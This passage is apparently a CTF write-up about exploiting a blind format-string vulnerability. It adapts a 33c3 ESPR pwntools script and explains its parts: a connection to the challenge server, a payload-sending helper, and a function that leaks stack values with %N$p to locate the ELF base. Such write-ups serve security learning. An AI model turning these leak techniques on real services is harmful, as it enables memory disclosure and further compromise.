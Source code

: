 Now it’s time to find a way to grab the flag.
I’ve already played with format strings vulnerabilities but never blindly.
While looking on the net for information on how I could efficiently leak usable addresses from the binary, I came across a challenge from the 33c3 CTF entitled `Eat, Sleep Pwn, Repeat` or `ESPR` (which is also the name of the German team which organized the 33c3 CTF).
The situation is pretty much the same and I started looking at write-ups of the challenge.
I stumbled across these 2 excellent ressources that I encourage you to take a look at :

- [Write-up from @jay_f0xtr0t:](https://github.com/InfoSecIITR/write-ups/blob/master/2016/33c3-ctf-2016/pwn/espr/README.md)
- [Video from @LiveOverflow:](https://youtu.be/XuzuFUGuQv0)

In order to solve the challenge, I used the script from [@jay_f0xtr0t](https://twitter.com/jay_f0xtr0t) ([available here](https://github.com/InfoSecIITR/write-ups/blob/master/2016/33c3-ctf-2016/pwn/espr/espr.py)) that I adapted a little bit.

Below is the explanation of what the different parts of the code do :

First, we connect to the challenge (obviously) and set the architecture accordingly.
The challenge is a 64-bit binary : our `%p` inputs reveal addresses like `0x7f2a8a02f780` which start with `0x7f` and are 6 bytes long.

```python
from pwn import *

conn = remote('47.75.182.113', 9999)
context.update(arch = 'amd64', os = 'linux')
```

The `exec_payload` function is the function that exploits the format string vulnerability strictly speaking.
We prepend an arbitrary value (`_EOF` in this case but it could have been something else…) to our payload and the function will parse the server’s response until it reaches our value.
We ignore `\n` because if the server is using the `gets` function (or similar) for reading our input, the fact that there is a newline character will cause a weird behaviour : the function will replace `\n` with `\x00` (null byte) and we will get the output twice.

```python
def exec_payload(payload):
    if '\n' in payload:
        return ""
    conn.sendline("_EOF" + payload)
    conn.recvuntil("_EOF")
    data = conn.recv()
    return data
```

The `find_elf` function attempts to find an address that might be in the ELF binary.
To do so, it looks for an address starting with `0x400` (because `0x400000` is the default base address for binaries).
The address that we find will be useful later when we will use the `DynELF` function from PwnTools.

```python
def find_elf(depth):
    log.info('Finding ELF. This might take a few seconds...')
    for i in xrange(1, depth + 1):
        data = exec_payload('%' + str(i) + '$p')
        if (len(data) == 8 and data[0:5] == '0x400'):
			log.success('FOUND ELF !')
			return int(data, 16)
```
